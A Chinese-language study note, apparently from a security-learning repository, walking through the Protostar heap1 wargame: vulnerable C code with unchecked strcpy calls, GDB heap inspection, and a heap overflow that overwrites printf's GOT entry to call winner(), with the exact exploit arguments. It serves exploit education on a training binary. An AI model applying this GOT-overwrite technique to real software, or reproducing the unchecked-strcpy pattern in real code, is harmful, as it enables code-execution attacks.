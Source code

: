 # 0x15 The Heap How to exploit a Heap Overflow
> heap 堆溢出 +  GOT 覆盖，一次详细的堆分配调试过程及漏洞利用过程，顺序与视频相反
- **漏洞代码**
  ```c
  1 #include <stdlib.h>
  2 #include <unistd.h>
  3 #include <string.h>
  4 #include <stdio.h>
  5 #include <sys/types.h>
  7
  8 struct internet {
  9    int priority;
  10    char *name;
  11 };
  12
  13 void winner()
  14 {
  15 printf("and we have a winner @ %d\n", time(NULL));
  16 }
  17
  18 int main(int argc, char **argv)
  19 {
  20 struct internet *i1, *i2, *i3;
  21
  22
  23 i1 = malloc(sizeof(struct internet));
  24 i1->priority = 1;
  25 i1->name = malloc(8);
  26
  27 i2 = malloc(sizeof(struct internet));
  28 i2->priority = 2;
  29 i2->name = malloc(8);
  30
  31 strcpy(i1->name, argv[1]);
  32 strcpy(i2->name, argv[2]);
  33 
  34 printf("and that's a wrap folks!\n");
  35 }
  ```
- **GDB 调试查看堆分配过程中堆变化**
  - 在每个 `malloc` 函数调用处下断点（23、25、27、29）
  - 运行程序并输入 poc ```run "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" "`/bin/echo -ne "\x94\x84\x04\x08"`"```
    ![](img/15-调试运行程序.PNG)
  - 执行第一个 `malloc` 函数后，查看函数返回地址（即分配的 `chunk` 地址）
    - `info registers` 查看 `eax` 值，x86/64 下函数返回值存储于 `eax` 中
    - `info proc mappings` 查看进程中可访问的内存地址空间范围
    - `x/64wx 0x804a000` 查看进程堆区内容如下
      ![](img/15-malloc_1.PNG)
  - 为了在每次断点中断时查看堆区变化，设置 gdb-hook，可以看到，在第2个 malloc 断点处中断时，gdb 打印出堆区内容
    ![](img/15-malloc_2.PNG)
  - 第2个 malloc 断点中断时，已经执行了`i1->priority = 1` 的赋值，堆区内容如下
    ![](img/15-heap_1.PNG) 
  - 第3个 malloc 断点中断时，已经执行了 `i1->name = malloc(8);` 的赋值，堆区内容如下
    ![](img/15-heap_2.PNG)
  - 所有 malloc 执行完后，堆区内容如下
    ![](img/15-heap_3.PNG)
  - 因此，当 malloc 分配堆时，会逐个分配chunk（必须给小人安排一个出镜机会 :deciduous_tree: :sun_with_face:
    ![](img/15-heap_4.PNG)
- **漏洞利用过程**
  - 初步尝试触发漏洞，执行第一个 `strcpy()`函数后，验证存在栈溢出
    ![](img/15-漏洞利用_1.PNG)
    ![](img/15-漏洞利用_3.PNG)
    先存下作者的图:seedling:，第二个 `strcpy()` 想将 `00001111222233334444...` 存入到地址 `0x46464646` 中
    ![](img/15-漏洞利用_4.PNG)
    因此，我们需要将 `FFFF` 处填写成 `printf()` 的 `GOT` 地址，再将 `0000` 填写为 `winner` 的函数地址，这样在后续调用 `printf()` 函数时，实际调用的是 `winner()`
  - 在单步调试一波
    - 设置 gdb-hook，设置断点
      ```bash
      define hook-stop
      x/64wx 0x804a000
      info registers
      end
      ```
      在两个 `strcpy()` 及 `printf()` 函数处下断点
      ![](img/15-漏洞利用_5.PNG)
    - 首先设置 `FFFF` 为 `printf()` 的 `GOT` 地址
      ```bash
       run "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" 00001111222233334444
      ```
    - 执行完第一个 `strcpy()` 后堆区变化，原本该指向 `0x804a038` 的 `i2->name` 地址变为指向 `printf GOT` 地址
      ![](img/15-漏洞利用_strcpy_1.PNG)
    - 执行完第二个 `strcpy()` 后成功覆盖 `printf()` 地址为 `0000`
      ![](img/15-漏洞利用_strcpy_2.PNG)
    - 现在，设置 `0000` 为 `winner()` 地址，成功利用 :ear_of_rice: 
      ```bash
      "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" "`/bin/echo -ne "\x94\x84\x04\x08"`"
      ```
      ![](img/15-漏洞利用成功.PNG)

## 参考链接
- [exploit-protostar](https://exploit.education/protostar/) 
- [liveoverflow_binary-hacking](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)